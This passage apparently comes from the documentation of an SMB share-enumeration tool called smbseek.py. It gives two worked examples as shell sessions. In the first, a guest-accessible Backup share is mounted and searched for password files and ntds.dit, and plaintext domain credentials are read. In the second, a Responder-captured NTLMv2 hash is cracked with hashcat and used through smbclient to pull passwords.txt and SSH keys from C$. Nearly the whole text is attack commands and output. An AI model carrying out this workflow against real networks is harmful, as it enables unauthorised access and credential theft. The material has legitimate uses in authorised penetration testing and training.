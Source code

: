 ```bash
# Discovery
$ ./smbseek.py -t
[HIGH] 192.168.1.50 (fileserver.company.local), 4 shares, 2 accessible [GUEST ACCESS]
    ★ Interesting: Backup
    ✓ \\192.168.1.50\Backup (Files: 127)

# Mount share
$ mkdir /mnt/backup
$ mount -t cifs //192.168.1.50/Backup /mnt/backup -o guest

# Search for sensitive files
$ find /mnt/backup -name "*password*" -o -name "*credential*"
/mnt/backup/IT/passwords.txt
/mnt/backup/Scripts/db_credentials.xml
/mnt/backup/AD_Backup/ntds.dit

# Extract credentials
$ cat /mnt/backup/IT/passwords.txt
Domain Admin: CompanyAdmin2023!
SQL SA: SQLPass2023!
vCenter: vCenter@2023

# Impact: Domain admin credentials discovered
```

### Example 3: C$ Access with Stolen Credentials
**Scenario**: Responder captured admin credentials, C$ accessible

```bash
# Responder capture
[SMB] NTLMv2-SSP Hash: COMPANY\admin:hash...

# Crack hash
$ hashcat -m 5600 hash.txt rockyou.txt
COMPANY\admin:Admin@2023!

# Test access
$ ./smbseek.py -u admin -p Admin@2023! -t
[HIGH] 192.168.1.51 (workstation-05), 5 shares, 3 accessible
    ✓ \\192.168.1.51\C$ (Files: 24)
    ✓ \\192.168.1.51\ADMIN$ (Files: 15)

# Access C$
$ smbclient //192.168.1.51/C$ -U admin%Admin@2023!
smb: \> cd Users
smb: \> cd Administrator
smb: \> cd Desktop
smb: \> get passwords.txt
smb: \> cd ..\Documents
smb: \> get ssh_keys.zip

# Impact: Complete file system access, credential harvesting
```
